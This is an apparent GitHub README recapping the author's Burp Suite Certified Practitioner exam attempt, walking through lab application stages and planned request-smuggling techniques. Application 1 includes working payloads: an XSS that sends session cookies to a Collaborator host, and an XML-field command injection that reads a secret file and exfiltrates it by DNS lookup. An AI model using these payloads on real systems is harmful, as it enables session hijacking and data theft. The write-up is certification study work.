 # BSCP-Recapitulation
This Repo contains Burp Suite Certification Practitioner Recapitulation of Mine


## BSCP 1<sup>st</sup> Exam
I have taken my first BSCP exam on **December 24th, 2024**. I failed on App 2 without success to address any vulnerabilities. Please find the details in the following points:

### Application 1 - EXPLOITED !!!
- Stage 1:
  - Features:
    The features mentioned here are the visible functional that we can exploit for stage 1
    1. Search in Homepage
    2. Comment on the Blog Post
    3. Login Form
    4. Forgot Password
   
  - Vulnerability: XSS with Blocked Tags
  - How to trigger for the first time:
    ```javascript
    <script>alert(1)</script>
    ```
  - After scanning the allowed tags and events, I used this payload to ensure it works:
    ```javascript
    <body onload=document.location='https://collaborator.oastify.com/?c='+document.cookie tabindex=1>
    ```
  - I attached this *URL Encoded* payload to the Exploit Server:\
    a. Bare Payload
    ```javascript
    <script>Document.location = 'https://WEB_ID.web-security-academy.net/?query=<body onload=document.location='https://collaborator.oastify.com/?c='+document.cookie tabindex=1>#x';</script>
    ```
    b. URL encoded Payload (You can copy the URL from HTTP history )
    ```javascript
    <script>Document.location="https://WEB_ID.web-security-academy.net/?searchTerm=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fcollaborator.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie+tabindex%3D1%3E#x"</script>
    ```

- Stage 2:
  - Features:
    The features mentioned here are the additional visible functional after passing the `stage 1`
    1. Update Email
       
  - Vulnerability: JSON `roleId` in Response Body of Update Email.
  - How to Exploit:
    1. Send this request to the Intruder
    2. Brute the `roleId`
    3. Observe the result with statusCode `302`
   
- Stage 3:
  - Features:
    The features mentioned here are the visible functional in `Admin Panel` Menu
    1. XML User Import
  - Vulnerability: XXE Injection
  - How to Exploit:
    I used the following payload to exploit this vulnerability (I URL-Encoded the Ampersand(&) character):
    ```XML
    <?xml version="1.0" encoding="UTF-8"?>
    <users>
      <user>
        <username>Exp1</username>
        <email>exp1@domain.com</email>
      </user>
     <user>
        <username>Exp2</username>
        <email>exp2@example.com%26`nslookup -q=cname $(cat /home/carlos/secret).bfuxae8oi1ac1lrm5l2hgmwh68c00qof.oastify.com`</email>
      </user>
    </users>
    ```

### Application 2 - UNEXPLOITED 😢
- Stage 1:
  - Features:
    The features mentioned here are the visible functional that we can exploit for stage 1
    1. Search in Homepage
    2. Login Form
    3. Forgot Password
       
  - Walkthrough:
    1. I have Performed Host Header Attack using the following kind of techniques:
       - Enumerate using IP address: **NOT VULNERABLE**
       - Exploit using `X-headers`: **NOT VULNERABLE** (Not Reflected to the Exploit Server)
       - Exploit by supplying an absolute URL in the request line as follows `GET https://WEB_ID.WEB_ID.web-security-academy.net/`: **NOT VULNERABLE**. Please refer to [this lab](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing)
       - Exploit using duplicated host > **NOT VULNERABLE**
         > [!NOTE]
         > Not Reflected to the Exploit Server
       - Exploit using connection state > **NOT VULNERABLE**
         > [!NOTE]
         > it seems it was not able to use the connection header. Since `Connection` was not reflected in the response.
    2. Brute forcing user > **NOT VULNERABLE**.
         > [!NOTE]
         > There is no response with statusCode `302`)
    <a name="walkthrough-number-3">3.</a> I have found a different `Response Message` in the **Forgot Password** feature that indicates whether the user exists.
    4. I have performed CSRF Attack:
       - modified the CSRF token: **NOT VULNERABLE**
       - Removed CSRF token and Parameter: **NOT VULNERABLE**
       - swap the CSRF token with the value from the other session: **NOT VULNERABLE**
    5. Web Cache: **NOT VULNERABLE** (There is no `Tracking.js` and no `Cache` header in Response).
    6. I Have Performed HTTP Request Smuggling:
       - unable to use `CL` and `TE` Headers in a request: **NOT VULNERABLE** (Indicates we can direct to use **H2 or HTTP2** Techiniques)
       - Performed H2.TE; H2.CL; H2 Smuggling CRLF; CL.0 Req: **NOT VULNERABLE** (always GET `200` response, But It seems I have not exploited these techniques correctly).
    7. I have scanned using the `Launch All Scans` option in the **HTTP Request Smuggler** Extension. In addition, I only got a `dual path` vulnerability. In my opinion, we cannot consider that scan result as a potential vulnerability.
       > [!NOTE]
       > I will describe the reason in the next point).

  - Potential Vulnerability:
    In this section, I am trying to summarize or classify any potential vulnerabilities and any techniques that I have not performed prior BSCP Exam.
    1. H2 Request Splitting via CRLF Injection: **The Most potential vulnerability**.\
       <p> I have tried to find the potential labs in **Port Swigger Academy** that have similarities with my case in the exam. And I have found the closest potential in [this lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection) with `H2 Request Splitting via CRLF Injection` technique. The reason is When solving that lab, I only got the `dual path` vulnerability in the scan result compared to other `HTTP/2 Request Smuggling` techniques</p>
    2. HTTP/2-TE. Please refers to [this lab](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling).
    3. Maybe Obfuscating `TE` Header using payload in **BotesJuan**'s Repo would be a good option.
       > [!NOTE]
       > Please note not to duplicate this header. Just use 1 `TE` Header since duplicated `TE` Header is not allowed).
    5. Perform H2.CL Technique refers to [this lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling).
    6. Perform CL.0 Technique refers to [this lab](https://portswigger.net/web-security/request-smuggling/browser/cl-0/lab-cl-0-request-smuggling).
    7. Brute Force the **Password** using the potential `usernames` based on the `Walkthrough` [number 3](#walkthrough-number-3).

    

    
     
